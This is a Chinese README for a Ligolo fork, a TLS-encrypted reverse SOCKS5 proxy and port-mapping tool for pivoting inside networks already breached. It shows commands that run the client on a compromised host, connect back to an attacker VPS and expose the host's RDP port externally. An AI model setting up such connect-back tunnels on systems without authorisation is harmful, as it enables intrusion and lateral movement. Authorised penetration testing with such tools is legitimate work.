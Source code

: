 # Ligolo : 用于内网渗透的反向隧道

[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/gluten-free.svg)](https://forthebadge.com)

简体中文 | [English](./README_EN.md)

## 介绍

项目根据 [ligolo](https://github.com/sysdream/ligolo) 修改,主要做一些功能上的裁剪,方便使用.

**Ligolo** 是一个简单的,轻量级的反向Socks5代理工具及端口映射工具,所有的流量使用TLS加密.

其功能类似于*Meterpreter*中的*Autoroute + Socks4a*,但是更加稳定,速度更快.

## 使用场景

当你已经在对方内网获取到一台 Windows / Linux / Mac 主机的权限且该主机可以连接互联网.

此时你想要建立一个对方内网的Socks5代理或需要连接内网某个IP地址的某端口.

**Ligolo** 可以帮助你建立代理,协助你继续进行内网渗透.

> 如果已控主机不能访问互联网,可以尝试使用另一款工具 [pystinger](https://github.com/FunnyWolf/pystinger)

## 使用方法

### Sock5代理

- 获取已编译的二进制文件 [release](https://github.com/FunnyWolf/ligolo/releases)

- 在你的VPS主机中.

```
./ligolos
```

- 在已控制的内网主机中.

```
> ligoloc.exe -s your-vps-ip:443
```

- 连接建立成功后,此时VPS的127.0.0.1:1080已经建立已控主机的内网Socks5代理.

### 详细说明

*Ligolo* 包含两个模块:

- ligolos (server)
- ligoloc (client)

*ligolos* 运行于你的VPS服务器 (攻击服务器).

*ligoloc* 运行于已经控制的内网主机.

*ligolos*可以使用默认设置.它会监听0.0.0.0:443端口(用于等待ligoloc连接)及127.0.0.1:1080(用于socks5代理).

*ligoloc*运行时必须制定服务端地址,使用参数`-s your-vps-ip:443`.

你可以使用`-h`参数查看帮助.

一旦*ligolos* 和 *ligoloc* 之间的连接建立成功,你即可使用VPS服务器`127.0.0.1:1080`的内网socks5代理.


### 反向端口映射
- 在你的VPS主机中.

```
./ligolos -p 0.0.0.0:13389
```

- 在已控制的内网主机中.

```
> ligoloc.exe -s your-vps-ip:443 -t 127.0.0.1:3389
```

- 连接建立成功后,已经将以控制内网主机的3389映射到VPS-IP:13389.



### 选项

*ligolos* options:

```
PS D:\xxx\bin> .\ligolos.exe -h
Usage of D:\xxx\ligolos.exe:
  -cert string
        The TLS server certificate,Unnecessary (default "cert.pem")
  -key string
        The TLS server key,Unnecessary (default "key.pem")
  -l string
        The relay server listening address (the connect-back address) (default "0.0.0.0:443")
  -p string
        The local socks5 server address or ip:port use to connect target (default "127.0.0.1:1080")
```

*ligoloc* options:

```
Usage of D:\XXX\ligoloc.exe:
  -proxy string
        Use proxy to connect ligolo server(e.g. http://user:passwd@192.168.1.128:8080 socks5://user:passwd@192.168.1.128:1080)
  -s string
        The ligolo server (the connect-back address)(e.g. 0.0.0.0:443)
  -t string
        The destination server (a 192.168.1.3:3389, 192.168.1.3:22, etc.) - when not specified, Ligolo starts a socks5 proxy server
```

### 编译

参考原版ligolo的编译方法

## 特性

- TLS 1.3 加密隧道
- 多平台 (Windows / Linux / Mac / ...)
- 多连接复用 (1 TCP连接传输所有流量)
- SOCKS5代理

## To Do

- 更好的超时机制
- SOCKS5 UDP 支持
- mTLS双向认证

## Licensing

GNU General Public License v3.0 (参考 LICENSING).

## 原版作者

* Nicolas Chatelain <n.chatelain -at- sysdream.com>



